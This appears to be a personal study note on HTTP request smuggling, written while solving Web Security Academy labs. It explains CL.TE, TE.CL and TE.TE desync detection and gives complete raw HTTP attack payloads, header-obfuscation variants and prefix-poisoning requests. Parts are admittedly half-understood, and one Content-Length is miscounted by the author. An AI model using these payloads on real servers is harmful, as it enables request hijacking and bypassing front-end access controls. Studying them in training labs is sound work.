








## Definition

http smuggling attack is a way for interfering with the way a website processes a sequence of http requests, allowing an attacker to have some privileged access.

## How does it arise ?

Most http/1 have a specification to specify where the request ends.
`Content-length` and `Transfer-Encoding`.
The content length tells the length of the message's body example 

    POST /search HTTP/1.1
    Host: normal-website.com
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 11

    q=smuggling

Whereas the Transfer encoding header is used to specify that the message body uses chunked encoding  This means that the message body contains one or more chunks of data Each chunk consists of the chunk size in bytes (expressed in hexadecimal), followed by a newline, followed by the chunk contents. The message is terminated with a chunk of size zero. For example:

    POST /search HTTP/1.1
    Host: normal-website.com
    Content-Type: application/x-www-form-urlencoded
    Transfer-Encoding: chunked

    b
    q=smuggling
    0

## perform http smug attack

The classic attack is to provide both header in the HTTP request and try to manipulate them so that the front-end and back-end servers process the request differently.

* CL.TE: the front-end server uses the Content-Length header and the back-end server uses the Transfer-Encoding header.
* TE.CL: the front-end server uses the Transfer-Encoding header and the back-end server uses the Content-Length header.
* TE.TE: the front-end and back-end servers both support the Transfer-Encoding header, but one of the servers can be induced not to process it by obfuscating the header in some way.

Most modern browsers use HTTP/2 to prevent the attack, so it needs to be changed manually some times.

### Note : 
Prepare burp for request smuggling

1. Downgrade to HTTP/1
2. change request method to POST
3. Disable automatic content-length
4. show non printable characters  

## Global detection 

## DETECT CL.TE vulnerability

The front end uses CL and the back uses TE
We create this payload as the following 

    POST / HTTP/1.1
    Host: 0a6e005704daed308085a8fa008800f1.web-security-academy.net
    Connection: keep-alive
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 6
    Transfer-Encoding: chunked
    \r\n
    3\r\n
    abc\r\n
    X\r\n

We set the content length to 6, to tell the front and that if it's using CL, that body should end at `abc`, and we should get a timeout after few seconds.

it' because that the front end won't be sending `X\r\n`, and looks at the chunked size equals to 3, and it'll be still waiting for the next chunked to come before the timeout.

## Detect TE.CL vulnerability

Send the same payload, and we should have an 400 error 'Invalid request'

it's because the front will read the first 3 bytes, and expect a hexadecimal value, instead it'll find an X, and throw an .error
regarding the backend, we throw this payload 

    POST / HTTP/1.1
    Host: 0a6e005704daed308085a8fa008800f1.web-security-academy.net
    Connection: keep-alive
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 6
    Transfer-Encoding: chunked
    \r\n
    0\r\n
    \r\n
    X\r\n

and we should receive a timeout, it's because the front end is using TE and it'll send only `0\r\n \r\n` and since the server is using CL (hypothesis) it will read the content-length of 6 and will receive only 5, and i'll wait for the end until a time-out.

## TE.CL attack

// didn't understand it a 100%

BUT : since the front end is using TE, we will use it to poison the backend server with the content length so just `1\r\n` will be processed, and the rest will be on hold, and it will be appended as a prefix to the next request to the backend.

So solve the lab, to have a GPOST : 
The payload will be the following : 

    POST / HTTP/1.1
    Host: 0a800053040d759d80be171500e800ba.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 4
    Transfer-Encoding: chunked

    5c
    GPOST / HTTP/1.1
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 11
    \r\n
    x=1\r\n
    0\r\n
    \r\n

 and the next request will be normal 

    POST / HTTP/1.1
    Host: 0a800053040d759d80be171500e800ba.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 12

    Foo=bar 

So the front end will process the normal request as it uses chunked we have to specify the size of the chunked which is `5c` which is the length of the request from `GPOST` until `x=1` since it's a post method, the x=1 it's just a random value, next for the content-length we have to set if the length of the poisoned request +1, in order to make the the back-end wait for the extra byte, other wise if it's correct, it will just process it as a normal request.

## TE.TE

Here both the front and the back using TE, how to detect them ?
Send the same payload :
as mentioned above, the front needs to reject the payload above :

    POST / HTTP/1.1
    Host: 0a6e005704daed308085a8fa008800f1.web-security-academy.net
    Connection: keep-alive
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 6
    Transfer-Encoding: chunked
    \r\n
    3\r\n
    abc\r\n
    X\r\n

here the front will reject the value since it's using chunked value, it will read the first three bytes and will expect a hexadecimal value after, instead it receives an X which is invalid, this tells us the front uses the TE

for the back end we use this payload : 

    POST / HTTP/1.1
    Host: 0a6e005704daed308085a8fa008800f1.web-security-academy.net
    Connection: keep-alive
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 6
    Transfer-Encoding: chunked
    \r\n
    0\r\n
    \r\n
    X\r\n
 we'll get back a 200 ok, since the payload is valid, since X is dropped  the back end receives a valid value, if he was using a CL, it will be waiting for the rest of the request.

how to perform the attack, we need to obfuscate the TE chunked and doesn't use it, instead use CL, these are potential payloads : 

    Transfer-Encoding: xchunked

    Transfer-Encoding : chunked

    Transfer-Encoding: chunked
    Transfer-Encoding: x

    Transfer-Encoding:[tab]chunked

    [space]Transfer-Encoding: chunked

    X: X[\n]Transfer-Encoding: chunked

    Transfer-Encoding
    : chunked

To solve the lab this is the used payload : 

    POST / HTTP/1.1
    Host: 0aa1001a03ee37b8800e6c2f008f0068.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 4
    Transfer-Encoding: chunked
    Transfer-Encoding: x
    \r\n
    56
    GPOST / HTTP/1.1
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 6
    \r\n
    0\r\n
    \r\n
 and then send normal request

# Confirming CL.TE vulnerabilities using differential responses

the image sums it up : 

We will send the request with the normal content length with the payload poisoning `GET /path` and adding `X-Ignore : X` without `\r\n` so that when we send a normal request the `Xget` will be ignored, and the HOST and other stuff will be taken into account.
also do not forget `0\r\n\r\n` in order to tell the back end that request ends, and poison with the next request.

to solve the lab this is the payload i used : 

    POST / HTTP/1.1
    Host: 0ae8001803718feb818975b600c900da.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 35
    Transfer-Encoding: chunked
    \r\n
    0\r\n
    \r\n
    GET /404 HTTP/1.1
    X-Ignore: x

and the normal request :

    POST / HTTP/1.1
    Host: 0ae8001803718feb818975b600c900da.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 11

    foo=bar

Recap : the front uses CL, so we send all the request, the back uses TE so we tell him to end the request at `0\r\n\r\n` so the next `GET` will be on hold to prefix the next request. 

# Confirming TE.CL vulnerabilities using differential responses

Thanks to `Jarno Timmermans` the image is self explanatory: 

The payload i used to solve the lab

Attack request : 

    POST / HTTP/1.1
    Host: 0ab4001c04adf96c83d6aa6b00eb0069.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 4
    Transfer-Encoding: chunked

    9b
    POST /root HTTP/1.1
    Host: 0ab4001c04adf96c83d6aa6b00eb0069.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 13
    \r\n
    0\r\n
    \r\n

Normal request : 

    POST / HTTP/1.1
    Host: 0ab4001c04adf96c83d6aa6b00eb0069.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 11

    foo=bar

Recap : So the front end since it's using TE, it will send all the payload, and the back end will be poisoned with 

    POST /root HTTP/1.1
    Host: 0ab4001c04adf96c83d6aa6b00eb0069.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 13
    \r\n
    0\r\n
    \r\n
and the content length is set to 13 it's 7 the size of `\r\n0\r\n\r\n` + `GET \` normally i mad a mistake it should be 14 since i used POST =) 